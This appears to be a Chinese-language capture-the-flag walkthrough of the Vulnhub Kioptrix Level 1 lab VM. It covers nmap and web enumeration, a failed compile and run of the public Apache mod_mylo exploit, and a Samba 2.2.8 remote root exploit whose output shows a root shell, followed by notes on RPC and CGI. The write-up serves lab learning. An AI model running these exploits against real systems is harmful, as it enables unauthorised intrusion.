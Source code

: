 ```yaml
---
title: Vulnhub-KioptrixLevel1通关记录
tags:
---
```


## 靶机描述

靶机 IP :  10.8.12.128

>This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## 信息收集

### nmap扫描

按照常规的方法：通过 TCP | UDP 扫描端口、获取开放端口对应信息、系统版本信息

下面是通过 TCP 扫描发现所收集到的信息：

```
$ sudo nmap -sT -p- --min-rate 10000 10.8.12.128 -oN nmapscan/portscan.txt
Nmap scan report for 10.8.12.128
Host is up (0.00067s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
1024/tcp open  kdm

$ sudo nmap -sT -p22,80,111,139,443,1024 -sV -sC -O --min-rate 10000 10.8.12.128 -oN nmapscan/servscan.txt
.......
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      1 (RPC #100024)
.......

Linux 2.4.9 - 2.4.18 (likely embedded) (97%)......
```

根据 `nmap` 的扫描结果，可以看到靶机开放了22，80，111，139，443，1024端口，对应的服务分别为 ssh ， web  ， smb  ，rpc。 

### Web 目录扫描


```
/.html                (Status: 403) [Size: 269]
/index.html           (Status: 200) [Size: 2890]
/test.php             (Status: 200) [Size: 27]
/manual               (Status: 301) [Size: 294] [--> http://127.0.0.1/manual/]
/usage                (Status: 301) [Size: 293] [--> http://127.0.0.1/usage/]
/mrtg                 (Status: 301) [Size: 292] [--> http://127.0.0.1/mrtg/]
```

## 获取立足点

### 失败尝试：绕过 `127.0.0.1` 限制

因为看到如下提示，就在想能不能用绕过的方式，访问到 `127.0.0.1` 的资源，期间尝试了以下几种方法：

1. 添加 `x-forward-for` 头，但是依旧重定向到 `127.0.0.1` ；
2. 通过 SSRF 的方式绕过，但未找到可利用的文件；

### 失败尝试：Apache 1.3.20 RCE

通过 `searchsploit` 查询到 `Apache 1.3.20` 存在 RCE 漏洞，将对应的脚本 `67.c` 复制到本地后进行编译，但爆破攻击失败。

```
$ searcgsploit Apache 1.3

.....
Apache 1.3.x mod_mylo - Remote Code Execution | multiple/remote/67.c 
.....

$ searchsploit -m 67.c
  Exploit: Apache 1.3.x mod_mylo - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/67
     Path: /usr/share/exploitdb/exploits/multiple/remote/67.c
    Codes: OSVDB-10976, CVE-2003-0651
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/Desktop/BoxWalk/Vulnhub/kioptrix/level1/67.c

$ gcc -o 67 67.c

$ ./67 -h
Apache + mod_mylo remote exploit
By Carl Livitt (carllivitt at hush dot com)

Arguments:
  -t target       Attack 'target' host
  -T platform     Use parameters for target 'platform'
  -h              This help.

Available platforms:
 0. SuSE 8.1, Apache 1.3.27 (installed from source) (default)
 1. RedHat 7.2, Apache 1.3.20 (installed from RPM)
 2. RedHat 7.3, Apache 1.3.23 (installed from RPM)
 3. FreeBSD 4.8, Apache 1.3.27 (from Ports)

$ ./67 -t 10.8.12.128 -T 1
[-] Attempting attack [ RedHat 7.2, Apache 1.3.20 (installed from RPM) ] ...
[*] Bruteforce failed....

Have a nice day!
```


### smb攻击

发现靶机开放了139端口，使用 `msf` 对 smb 服务进行攻击。

```


$ ./a.out -b0 10.8.12.128
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
whoami
root
```

## 总结

### 知识点

#### RPC协议

>RPC（ Remote Procedure Call ）远程过程调用协议，一种通过网络从远程计算机上请求服务，而不需要了解底层网络技术的协议。RPC 它假定某些协议的存在，例如 TPC / UDP 等，为通信程序之间携带信息数据。在 OSI 网络七层模型中，RPC 跨越了传输层和应用层，RPC 使得开发，包括网络分布式多程序在内的应用程序更加容易。

![RPC流程图](https://pic.imgdb.cn/item/64a6d7c41ddac507ccd18b65.jpg)

### CGI 定义

>CGI 目前由NCSA维护，NCSA 定义 CGI 如下：
>
>CGI ( Common Gateway Interface ) ，通用网关接口，它是一段程序,运行在服务器上如：HTTP服务器，提供同客户端 HTML 页面的接口。

CGI 工作流程（用户在网页上点击一个链接或URL）：

1. 使用你的浏览器访问URL并连接到HTTP web 服务器。
2. Web服务器接收到请求信息后会解析URL，并查找访问的文件在服务器上是否存在，如果存在返回文件的内容，否则返回错误信息。
3. 浏览器从服务器上接收信息，并显示接收的文件或者错误信息。

CGI 程序可以是 Python 脚本，PERL 脚本，SHELL 脚本，C 或者 C++ 程序等。

![CGI架构图](https://pic.imgdb.cn/item/64a6ef551ddac507cc075799.jpg)